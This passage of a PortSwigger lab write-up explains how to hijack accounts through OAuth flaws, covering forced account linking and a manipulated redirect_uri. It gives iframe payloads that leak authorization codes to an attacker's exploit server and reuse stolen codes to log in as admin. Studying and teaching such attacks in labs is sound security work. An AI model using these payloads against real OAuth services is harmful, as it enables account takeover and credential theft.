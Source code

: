 9. Turn off proxy interception and log out of the blog website.
10. Go to the exploit server and create an ``iframe`` in which the ``src`` attribute points to the URL you just copied. The result should look something like this:
```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/oauth-linking?code=STOLEN-CODE"></iframe>
```
11. Deliver the exploit to the victim. When their browser loads the ``iframe``, it will complete the 12. OAuth flow using your social media profile, attaching it to the admin account on the blog website.
Go back to the blog website and select the "Log in with social media" option again. Observe that you are instantly logged in as the admin user. Go to the admin panel and delete Carlos to solve the lab.

## OAuth account hijacking via redirect_uri
Reference: https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri


### Quick Solution
For this lab we just have to mess around with the ``redirect_uri`` parameter to get the **authorization code** of the ``admin`` user and then use it to complete the authentication flow.


### Solution
1. While proxying traffic through Burp, click "My account" and complete the OAuth login process. Afterwards, you will be redirected back to the blog website.
2. Log out and then log back in again. Observe that you are logged in instantly this time. As you still had an active session with the OAuth service, you didn't need to enter your credentials again to authenticate yourself.
3. In Burp, study the OAuth flow in the proxy history and identify the **most recent** authorization request. This should start with ``GET /auth?client_id=[...]``. Notice that when this request is sent, you are immediately redirected to the redirect_uri along with the authorization code in the query string. Send this authorization request to Burp Repeater.
4. In Burp Repeater, observe that you can submit any arbitrary value as the ``redirect_uri`` without encountering an error. Notice that your input is used to generate the redirect in the response.
5. Change the ``redirect_uri`` to point to the exploit server, then send the request and follow the redirect. Go to the exploit server's access log and observe that there is a log entry containing an authorization code. This confirms that you can leak authorization codes to an external domain.
6. Go back to the exploit server and create the following ``iframe`` at ``/exploit``:
```
<iframe src="https://YOUR-LAB-OAUTH-SERVER-ID.web-security-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net&response_type=code&scope=openid%20profile%20email"></iframe>
```
7. Store the exploit and click "View exploit". Check that your ``iframe`` loads and then check the exploit server's access log. If everything is working correctly, you should see another request with a leaked code.
8. Deliver the exploit to the victim, then go back to the access log and copy the victim's code from the resulting request.
9. Log out of the blog website and then use the stolen code to navigate to:
```
https://YOUR-LAB-ID.web-security-academy.net/oauth-callback?code=STOLEN-CODE
```
The rest of the OAuth flow will be completed automatically and you will be logged in as the admin user. Open the admin panel and delete Carlos to solve the lab.
